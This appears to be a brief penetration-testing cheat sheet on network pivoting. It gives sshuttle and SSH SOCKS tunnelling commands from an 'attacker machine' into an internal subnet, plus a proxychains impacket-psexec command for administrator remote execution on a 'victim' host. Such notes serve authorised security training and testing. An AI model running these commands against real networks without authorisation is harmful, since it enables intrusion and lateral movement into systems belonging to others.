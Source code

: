 # Tunneling Tools And Commands

## Sshuttle
[SSH Tunneling Tool] (https://github.com/sshuttle/sshuttle)

### Attacker machine:

kali@kali:~$ sudo sshuttle -e "ssh -oHostKeyAlgorithms=+ssh-dss" -r vyos@172.16.45.205 10.0.0.0/24

Then try nc to a port or nmap or the tool you need against the network you want to reach

## OpenSSH
(https://www.openssh.com/)

### Attacker machine:

kali@kali:~$ sudo ssh vyos@172.16.45.205 -p22  -oHostKeyAlgorithms=+ssh-dss -D 127.0.0.1:9050

Then use proxychains to use the tunnel against the victim; 

Example command:

$sudo proxychains impacket-psexec administrator@10.0.0.100

## Chisel

(https://github.com/jpillora/chisel)
